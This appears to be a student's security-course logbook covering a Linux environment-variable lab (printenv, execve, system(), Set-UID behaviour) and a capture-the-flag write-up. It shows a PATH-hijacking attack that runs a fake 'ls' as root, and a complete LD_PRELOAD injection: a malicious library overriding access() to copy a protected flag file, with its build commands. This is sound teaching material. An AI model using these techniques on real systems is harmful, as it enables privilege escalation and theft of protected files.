


# LOGBOOK 4

## 2.1 Task 1: Manipulating Environment Variables


Fig 1.  Use “printenv”


Fig 2. Use “env”


Fig 3. Use “printenv PWD”


Fig 4. Use “env | grep PWD”


Fig 5. Use “ export”


Fig 6. Use “unset”

### Viewing Environment Variables:

- ‘printenv’ : This command prints a list of all environment variables and their values

- ‘env’ : It's an alternative to printenv and provides the same functionality

### Setting Environment Variables

- ‘export’ : You can set an environment variable in your current shell session using the export command

### Unsetting Environment Variables:

- ‘unset’ : To remove an environment variable

## 2.2 Task 2: Passing Environment Variables from Parent Process to Child Process

### Step 1

- The program can be found in the Labsetup folder; it can be compiled using "gcc myprintenv.c"

- Run it and save the output into a file using "a.out > file"

### Step 2

- Comment out the printenv() statement in the child process case (Line ➀), and uncomment the printenv() statement in the parent process case (Line ➁)

- Compile and run the code again. Save the output in another file “a.out > file1”

### Step 3

- Compare the difference of these two files using the diff command


Fig 7. Passing Environment Variables from Parent Process to Child Process on Terminal 


Fig 8. My shared folder with modifications

## 2.3 Task 3: Environment Variables and execve()

### Step 1

- The program can be found in the Labsetup folder; it can be compiled using "gcc my_env.c"

- Run it and save the output into a file using "a.out > null"

### Step 2

- Change the invocation of execve() in Line ➀ to the following; describe your observation “execve("/usr/bin/env", argv, environ);”

### Step 3

- Compile and run the code again. Save the output in another file “a.out > environ”

- Find the differences by using this command “diff null environ”


Fig 9. Environment Variables and execve()

Through the Terminal we can conclude that the environ file has more environment variables than the null file. With NULL, no environment variables were passed while with environ they are already passed.

## 2.4 Task 4: Environment Variables and system()

- Create system.c file 

- Compile the program with this command “gcc system.c”

- Run the program with this command “a.out”



Fig 10. Environment Variables and system()

Concluding, the program behaves exactly the same as if we ran the env command in the terminal. The system() function, uses execl() to execute /bin/sh; execl() calls execve(), passing to it the environment variables array. 

## 2.5 Task 5: Environment Variable and Set-UID Programs

### Step 1

- Write the following program that can print out all the environment variables in the current process

### Step 2

- Compile the above program

- Change its ownership to root with this command “sudo chown root foo”
- make it a Set-UID program  with this command “sudo chmod 4755 foo”

### Step 3

- use the export command to set the following environment variables (they may have already exist)
- PATH
- LD LIBRARY PATH
- ANY NAME (this is an environment variable defined by you, so pick whatever name you want)

- Execute the program with this command “<program_name> | grep PWNED”


Fig 11. Environment Variable and Set-UID Programs

As observed, both the altered PATH and our custom environment variable have been conveyed to the Set-UID program. Conversely, the LD_LIBRARY_PATH environment variable has not been conveyed to the Set-UID program.

When a Set-UID program is executed, the linker identifies it as being in secure execution mode. In this secure mode, the LD_LIBRARY_PATH is disregarded as a precautionary measure to prohibit the loading and execution of potentially harmful code within these programs.

For example, if a malicious actor were to have write access to a directory, such as /tmp, they could compile a library with a customized implementation for a specific function, like printf. Within this custom implementation, they could insert code to trigger actions such as invoking system("<command to initiate a reverse shell>") or executing any other form of harmful code.

When a particular Set-UID program is executed, it runs with the permissions of the program owner. If, during this execution, LD_LIBRARY_PATH is set to a directory like /tmp (the directory accessible to the malicious actor), the system's linker would load the compromised printf implementation. As a result, the system's security would be compromised, allowing the reverse shell or any other code within the malicious implementation to operate with root privileges.


## 2.6 Task 6: The PATH Environment Variable and Set-UID Programs

- Write the following program supposed to execute the /bin/ls command
- Compile the above program
- Change its ownership to root with this command “sudo chown root foo”
- make it a Set-UID program  with this command “sudo chmod 4755 foo”
- Write  the malicious program with “ls” name
- makes the file executable with this command “chmod 755 ls”
- Change the PATH environment variable with this command “export PATH=/home/seed:$PATH”


Fig 12. The PATH Environment Variable and Set-UID Programs

In this scenario, we are dealing with a Set-UID program named "myls" that triggers the execution of the "ls" command. Since the provided path is relative (lacking a leading "/"), the system looks for the "ls" program within the directories specified in the PATH environment variable. Upon locating a program named "ls" in one of those directories, the system proceeds to execute it.

In this specific instance, it initiates the execution of a shell script. This script's function is to display a message and determine the effective username of the running process. As "myls" is executed with root privileges (due to root being the file owner and the Set-UID bit being set), any child processes it spawns inherit these elevated privileges. Consequently, the shell script is also executed with root privileges, leading to the "whoami" command outputting "root."

# Semana 4 (Linux Environment)

- This week's challenge aims to explore how environment variables affect the execution of programs on Linux systems.

- A Linux server is listening on port 4006 of the host ctf-fsi.fe.up.pt. To connect to this server, you can use the netcat program from the shell as follows: nc ctf-fsi.fe.up.pt 4006.

- After analyzing the files that are in the home folder, we realized by reading the main.c file that there is a file that is accessed regularly on the server and that could contain information about the flag, the flag.txt file.



Fig 13. File main.c

- Therefore, we decided to carry out the command “echo 'LD_PRELOAD=/tmp/lib PATH=/tmp' > env”. This command creates a file called "env" in the current directory with the content "LD_PRELOAD=/tmp/lib PATH=/tmp". It defines environment variables that will affect how programs run.

- Then "cd /tmp". This command changes the current directory to "/tmp". It is the temporary directory, where you will perform subsequent operations.

- After "touch file.txt". This command creates a file called "file.txt" in the current directory "/tmp". The file is created empty. 

- Further “chmod 777 file.txt”. This command sets full permissions (read, write and execute) for the file "file.txt". This allows any user on the system to access and modify the file.

```
echo '
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int access (const char* path, int mode)
{
    system("/bin/cat /flags/flag.txt > /tmp/file.txt");
    return 0;
}' > lib.c
```

- This command creates a file called "lib.c" and inserts the given content in single quotes. The content is a C language program that redefines the access function to execute a command that copies the contents of the file "/flags/flag.txt" to "/tmp/file.txt".

- “gcc -fPIC -g -c lib.c “ this command compiles the "lib.c" file into object code. Using the -fPIC and -g options indicates that the code should be compiled as position-independent code with debug information.

- "gcc -shared -o lib lib.o -lc" this command creates a shared library called "lib" from the object code "lib.o". The "-shared" option indicates that you are creating a shared library, and "-o lib" specifies the name of the output file. The "-lc" option links the standard C library.

- "chmod 777 lib" this command sets full permissions (read, write and execute) for the shared library "lib". This allows any program to use it.

- Finally, the "cat file.txt" command is used to display the contents of a file called "file.txt" in the terminal. The content of the file is exactly the flag we were looking for.


Fig 14. CTF4 Resolution

- In short, these commands are used to create an environment that will inject the "lib" library into other programs (using LD_PRELOAD) and, when the access function is called, it will copy the contents of the file "/flags/flag.txt" to "/tmp /file.txt".
